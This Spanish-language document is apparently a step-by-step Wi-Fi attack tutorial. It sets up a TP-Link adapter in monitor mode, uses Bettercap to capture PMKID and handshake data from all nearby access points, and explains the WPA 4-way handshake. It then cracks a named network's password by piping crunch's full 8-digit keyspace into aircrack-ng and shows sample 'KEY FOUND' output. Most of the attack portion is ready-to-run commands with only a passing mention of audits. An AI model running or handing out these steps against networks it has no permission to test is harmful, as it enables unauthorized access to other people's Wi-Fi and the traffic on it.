

Ataque wifi
Pasos previos
Instalación de drivers
Si no tenemos los drivers instalados, ejecutar el script setup.sh
#!/bin/bash
# Actualiza la lista de paquetes disponibles en los repositorios del sistema.
sudo apt update
# Actualiza la lista de paquetes disponibles en los repositorios del sistema.
sudo apt update
# Instala 'bc' (una calculadora) y los encabezados del kernel necesarios para compilar drivers.
sudo apt-get install -y bc linux-headers-$(uname -r)
# Descarga el módulo 'r8188eu.ko' del kernel si está cargado, para evitar conflictos.
sudo rmmod r8188eu.ko
# Clona el repositorio de GitHub que contiene los drivers para el chipset RTL8188EUS.
git clone https://github.com/aircrack-ng/rtl8188eus
# Cambia al directorio del repositorio clonado para trabajar con los archivos descargados.
cd rtl8188eus
# Inicia una sesión de superusuario para ejecutar comandos con privilegios elevados.
sudo -i
# Crea un archivo de configuración para evitar que el módulo 'r8188eu.ko' se cargue automáticamente.
echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"
# Sale de la sesión de superusuario para volver al usuario normal.
exit
# Compila el código fuente del driver para generar el módulo correspondiente.
make
# Instala el driver compilado en el sistema para que esté disponible para su uso.
sudo make install
# Carga el nuevo módulo '8188eu' en el kernel para activar el driver.
sudo modprobe 8188eu
# Desactiva la interfaz de red 'wlan0' para poder configurarla.
sudo ifconfig wlan0 down
# Cambia la interfaz 'wlan0' a modo monitor, útil para capturar paquetes Wi-Fi.
sudo iwconfig wlan0 mode monitor
# Reactiva la interfaz 'wlan0' con la nueva configuración en modo monitor.
sudo ifconfig wlan0 up
Para eliminar conexión de red existentes
sudo ip link delete docker0{kind=link}
Inicialización de antena
Una vez activado el usb, ejecutamos el script startWifi.sh para configurar un adaptador Wi-Fi USB para modo monitor, lo que permite capturar tráfico de red inalámbrica, útil en auditorías de seguridad con herramientas como Aircrack-ng.
Requisitos: Asumimos que el adaptador usa el chipset Realtek RTL8188EUS y que la interfaz se llama wlan0. También requiere permisos de superusuario (sudo) y herramientas como airmon-ng.
#!/bin/bash
# Elimina el módulo genérico 'rtl8xxxu' para evitar conflictos con el driver específico.
sudo rmmod rtl8xxxu
# Carga el módulo específico '8188eu' para el chipset Realtek RTL8188EUS.
sudo modprobe 8188eu
# Reinicia NetworkManager para refrescar las conexiones de red y reconocer los cambios en los drivers.
sudo systemctl restart NetworkManager
# Pide al usuario que desconecte y vuelva a conectar el adaptador Wi-Fi USB.
echo "Please disconnect the WiFi USB adapter and reconnect it."
# Pide al usuario que presione Enter cuando haya reconectado el adaptador.
echo "Press Enter when you are ready..."
read -r
# Informa que el script está esperando a que la interfaz 'wlan0' aparezca.
echo "Waiting for 'wlan0' to appear..."
# Inicia un bucle que se ejecuta hasta que 'wlan0' sea detectada.
while true; do
# Verifica si 'wlan0' está presente sin mostrar errores.
if iwconfig 2>/dev/null | grep -q "wlan0"; then
# Si 'wlan0' es detectada, imprime un mensaje y sale del bucle.
echo "'wlan0' detected!"
break
fi
# Pausa durante 2 segundos antes de verificar nuevamente.
sleep 2
done
# Informa que el adaptador Wi-Fi USB ha sido reconectado exitosamente.
echo "WiFi USB reconnected successfully."
# Termina procesos que podrían interferir con el modo monitor.
sudo airmon-ng check kill
# Pone la interfaz 'wlan0' en modo monitor.
sudo airmon-ng start wlan0
# Asegura que la interfaz 'wlan0' esté activada.
sudo ifconfig wlan0 up
SI el script se ha ejecutado con éxito, veremos el siguiente mensaje:
Please disconnect the WiFi USB adapter and reconnect it.
Press Enter when you are ready...
Waiting for 'wlan0' to appear...
'wlan0' detected!
WiFi USB reconnected successfully.
Killing these processes:
PID Name
2571 wpa_supplicant
PHY Interface Driver Chipset
phy1 wlan0 8188eu TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]
(monitor mode enabled)
Comprobaciones
Realizamos una serie de comprobaciones:
Comando airmon-ng
sudo airmon-ng airmon-ng es una herramienta de la suite Aircrack-ng diseñada para gestionar interfaces inalámbricas en sistemas Linux. Permite, entre otras cosas, habilitar o deshabilitar el modo monitor en un adaptador Wi-Fi.
Propósito de la comprobación:
- Cuando ejecutas sudo airmon-ng sin opciones adicionales, muestra una lista de las interfaces inalámbricas disponibles en tu sistema, junto con detalles como el nombre de la interfaz (por ejemplo, wlan0), el driver y el chipset que utiliza.
Ejemplo de salida:
PHY Interface Driver Chipset
phy1 wlan0 8188eu TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]
Comando iwconfig
iwconfigiwconfig es una herramienta de línea de comandos en Linux que muestra y configura información sobre interfaces inalámbricas. Es similar a ifconfig, pero está especializada en redes Wi-Fi.
Propósito de la comprobación:
- Al ejecutar iwconfig sin opciones, obtienes detalles sobre todas las interfaces inalámbricas del sistema, incluyendo el modo en el que están operando (por ejemplo, Mode:Managed para modo administrado o Mode:Monitor para modo monitor), la frecuencia, el ESSID, la potencia de la señal, etc.
- Se usa específicamente para ver si está en modo monitor.
Ejemplo de salida:
lo no wireless extensions.
eth0 no wireless extensions.
wlan0 unassociated Nickname:"<WIFI@REALTEK>"
Mode:Monitor Frequency=2.457 GHz Access Point: Not-Associated
Sensitivity:0/0
Retry:off RTS thr:off Fragment thr:off
Power Management:off
Link Quality:0 Signal level:0 Noise level:0
Rx invalid nwid:0 Rx invalid crypt:0 Rx invalid frag:0
Tx excessive retries:0 Invalid misc:0 Missed beacon:0
Comando sudo ip link show
sudo ip link show Si estás usando herramientas como Bettercap o realizando auditorías de redes Wi-Fi, necesitas que la interfaz esté activa para capturar tráfico.Si acabas de configurar una interfaz (por ejemplo, con airmon-ng start wlan0 para modo monitor), verificar con sudo ip link show te asegura que todo está listo.
- Si estás usando herramientas como Bettercap o realizando auditorías de redes Wi-Fi, necesitas que la interfaz (normalmente en modo monitor, como wlan0mon) esté activa para capturar tráfico.
Ejemplo de salida:
6: wlan0: <BROADCAST,ALLMULTI,PROMISC,NOTRAILERS,UP,LOWER_UP> mtu 2312 qdisc mq state UP mode DEFAULT group default qlen 1000
link/ieee802.11/radiotap 32:8a:d2:98:79:66 brd ff:ff:ff:ff:ff:ff permaddr d8:44:89:91:92:0d
Bettercap - Captura del handshake
¿Qué hace Bettercap en este ataque?
Bettercap es una herramienta de seguridad de redes versátil que se utiliza para realizar auditorías y ataques, incluyendo operaciones contra redes Wi-Fi. En el contexto del ataque PMKID, Bettercap desempeña las siguientes funciones:
- Modo monitor: Configura la interfaz Wi-Fi en modo monitor para capturar tráfico inalámbrico.
- Escaneo de redes: Detecta puntos de acceso y clientes cercanos.
- Solicitudes de asociación: Envía solicitudes de asociación a los puntos de acceso para provocar que respondan con paquetes que contengan el PMKID.
- Captura y almacenamiento: Guarda los PMKID capturados en un archivo para su análisis posterior.
En esencia, Bettercap simplifica y automatiza el proceso de escaneo, asociación y captura del PMKID, haciendo que el ataque sea más accesible y eficiente.
Pasos
Iniciamos Bettercap y especificamos la interfaz de red que se va a utilizar.
sudo bettercap -iface wlan0 -iface wlan0: Indica que la interfaz wlan0 (tu adaptador Wi-Fi) será utilizada para las operaciones.
Dentro de bettercap:

- Activar el modo de reconocimiento para escanear redes Wi-Fi cercanas.
wifi.recon onwifi.recon: Es el módulo de Bettercap encargado de escanear redes inalámbricas. Bettercap comienza a buscar redes Wi-Fi en el entorno, recopilando información sobre puntos de acceso y clientes.
- Mostrar una lista de las redes Wi-Fi detectadas durante el escaneo.
wifi.showwifi.show: Comando que presenta en pantalla los datos recopilados por el módulo
Obtenemos una tabla con detalles como el BSSID (dirección MAC del AP), SSID (nombre de la red), canal, tipo de cifrado, etc. Esto te ayuda a identificar la red objetivo.
{kind=link}

- Intentar asociarse con todos los puntos de acceso detectados para capturar sus PMKID.
wifi.assoc all- wifi.assoc: Envía solicitudes de asociación a los puntos de acceso.
- all: Indica que el comando se aplicará a todos los AP visibles.
Bettercap envía solicitudes a cada punto de acceso, intentando obtener el PMKID. Si tiene éxito, los PMKID capturados se almacenan para su uso posterior.

Vemos que la captura de red se nos guarda en /root/bettercap-wifi-handshakes.pcap
Explicacion captura tráfico de red pcap
Al abrir la captura obenida con bettercap, y al filtrar por protocolo EAPOL (Extensible Authentication Protocol over LAN), vemos es el siguiente resultado:

El protocolo EAPOL (Extensible Authentication Protocol over LAN), que forma parte del estándar 802.1X y se utiliza en redes WPA/WPA2 para establecer conexiones seguras mediante el 4-way handshake. Además, hay paquetes con el protocolo MXCHIPInform, que parece ser un protocolo propietario de dispositivos IoT fabricados por MXCHIP, una empresa conocida por módulos Wi-Fi e IoT. Este tráfico refleja intentos de conexión de dispositivos como un Xiaomi y otros clientes a la red.
Paquetes EAPOL - El 4-way Handshake
La mayor parte del tráfico en el .pcap corresponde al 4-way handshake de WPA/WPA2, un proceso de cuatro pasos que permite al punto de acceso (TP-Link) y los dispositivos clientes acordar claves de cifrado seguras para la comunicación. Este handshake incluye cuatro mensajes clave:
- Mensaje 1 de 4: Enviado por el punto de acceso al cliente. Contiene el ANonce (un valor aleatorio generado por el autenticador) para iniciar el proceso de generación de claves.
- Mensaje 2 de 4: Enviado por el cliente al punto de acceso. Incluye el SNonce (un valor aleatorio del cliente) y un MIC (Message Integrity Code) para verificar la integridad del mensaje.
- Mensaje 3 de 4: Enviado por el punto de acceso al cliente. Confirma la instalación de la PTK (Pairwise Transient Key, clave temporal para la comunicación entre el punto de acceso y el cliente) y la GTK (Group Temporal Key, clave para tráfico multicast).
- Mensaje 4 de 4: Enviado por el cliente al punto de acceso. Confirma que el handshake se ha completado y las claves están instaladas.
Proceso de Autenticación Wi-Fi (EAPOL)
El tráfico EAPOL muestra que varios dispositivos están intentando conectarse a una red Wi-Fi gestionada por el TP-Link. Cada intento de conexión genera un 4-way handshake:
- El TP-Link envía el Mensaje 1 con el ANonce (paquetes 511-549).
- El cliente responde con el Mensaje 2, enviando su SNonce y MIC (paquetes 551 y 500).
- El TP-Link envía el Mensaje 3, confirmando las claves PTK y GTK (paquetes 547 y 503).
- El cliente finaliza con el Mensaje 4, confirmando el éxito (paquete 512).
¿Qué es la contraseña y cómo se usa en WPA/WPA2?
La contraseña de la red Wi-Fi (también conocida como PSK, Pre-Shared Key, en WPA-Personal) se utiliza para derivar una clave maestra llamada PMK (Pairwise Master Key). La PMK se genera a partir de:
- La contraseña (PSK).
- El nombre de la red (ESSID).
- Un proceso de derivación usando el algoritmo PBKDF2 (Password-Based Key Derivation Function 2), que aplica 4096 iteraciones de HMAC-SHA1 para hacer que el proceso sea más seguro.
La PMK, junto con el ANonce, SNonce y las direcciones MAC del AP y el cliente, se usa para generar la PTK (Pairwise Transient Key), que es la clave temporal que cifra la comunicación entre el cliente y el AP.
Handshake capturado
Si conseguimos capturado un handshake, este aparecerá en el archivo /root/bettercap-wifi-handshakes.pcap. Este handshake contendrá:
- El ANonce y SNonce.
- El MIC (Message Integrity Code) del Mensaje 2.
- Las direcciones MAC del AP y el cliente.
- El ESSID.
Estos datos son suficientes para que aircrack-ng intente descifrar la contraseña.
aircrack-ng - Descifrado de la contraseña
Explicación
aircrack-ng: Es una herramienta diseñada para analizar archivos de captura de tráfico Wi-Fi (como archivos .pcap) y buscar información útil, como handshakes WPA/WPA2 o PMKID, que son necesarios para intentar descifrar contraseñas de redes Wi-Fi.
sudo aircrack-ng /root/bettercap-wifi-handshakes.pcapCuando ejecutamos este comando, aircrack-ng examina el archivo .pcap y muestra una lista de redes Wi-Fi detectadas, junto con detalles sobre si se capturó un handshake completo o un PMKID para cada una. Estos elementos son esenciales para intentar descifrar la contraseña mediante un ataque de fuerza bruta o con un diccionario.

- La red número 6 (TP-Link_9A88) tiene 1 handshake capturado, lo que la hace ideal para intentar descifrar su contraseña.
- Varias redes tienen PMKID capturados, pero no handshakes completos. También se podría trabajar con estas, pero el handshake de la red 6 es el más prometedor por ahora.
Proceso para sacar contraseña
Se requerirá de un diccionario de contraseñas, un archivo de texto con una lista de posibles contraseñas (una por línea).
Dado que el punto de acceso objetivo es un router TP-Link, y según la información disponible, los routers TP-Link suelen venir con una contraseña Wi-Fi por defecto de 8 dígitos numéricos (impresa en la etiqueta del dispositivo), se procederá a generar un diccionario con todas las combinaciones posibles de 8 dígitos (de 00000000 a 99999999). Este diccionario se utilizará con aircrack-ng para intentar descifrar la contraseña de la red TP-Link_9A88, que tiene un handshake capturado, verificando si la contraseña actual coincide con el formato por defecto del fabricante.
Podríamos generar un script en Python para generar un diccionario con todas las combinaciones posibles de contraseñas de 8 dígitos numéricos (desde 00000000 hasta 99999999)
# Script para generar un diccionario con todas las combinaciones de 8 dígitos numéricos
# Abrimos un archivo para escribir las combinaciones
with open('diccionario_8_digitos.txt', 'w') as f:
# Iteramos desde 0 hasta 99999999
for i in range(100000000):
# Convertimos el número a string con 8 dígitos, rellenando con ceros a la izquierda
contraseña = f"{i:08d}"
# Escribimos la contraseña en el archivo con un salto de línea
f.write(contraseña + "\n")
print("Diccionario generado: diccionario_8_digitos.txt")
Pero, debido a las limitaciones de generar y almacenar un diccionario tan grande, una mejor opción es generar las contraseñas dinámicamente durante el proceso de cracking. Puedes usar crunch en combinación con aircrack-ng. Por ejemplo:
crunch 8 8 0123456789 | aircrack-ng -w - -b (introducir BSSID) /root/bettercap-wifi-handshakes.pcapExplicación del comando:
- crunch 8 8 0123456789 : Genera todas las combinaciones de 8 dígitos usando los números del 0 al 9.
- | : Pasa las contraseñas generadas directamente a aircrack-ng a través de un pipe, sin necesidad de almacenarlas en un archivo.
- -w - : Indica a aircrack-ng que lea las contraseñas desde la entrada estándar.
- -b (BSSID) : Especifica el BSSID de la red TP-Link_9A88.
- /root/bettercap-wifi-handshakes.pcap : Ruta al archivo de captura que contiene el handshake.
Si tiene éxito, se verá algo como:
Aircrack-ng 1.7
[00:00:00] 1/1 keys tested (44.61 k/s)
Time left: --
KEY FOUND! [ 48392017 ]
Master Key : AA E4 8E 1D 89 FB 08 01 97 A8 F2 51 A0 9C 35 B7
C2 3E 60 01 C7 B5 BA 6D 5C D7 B7 69 2B 40 FB 58
Transient Key : 1A 31 C8 C0 5C 7D 0A F8 F8 43 B9 14 A4 22 FB D2
CB AB CD 32 50 D2 5B 6E 81 0A D7 EB 0E 6B FE 7A
A9 86 79 E9 13 7E 9E ED 5D 34 2D 70 8F BC 78 EF
87 C7 E7 EE 10 D4 B0 D0 DB 6D EF 1B 05 94 5A 15
EAPOL HMAC : A5 2C DB 24 29 E0 E1 13 2D E7 2B 70 5B 38 96 E0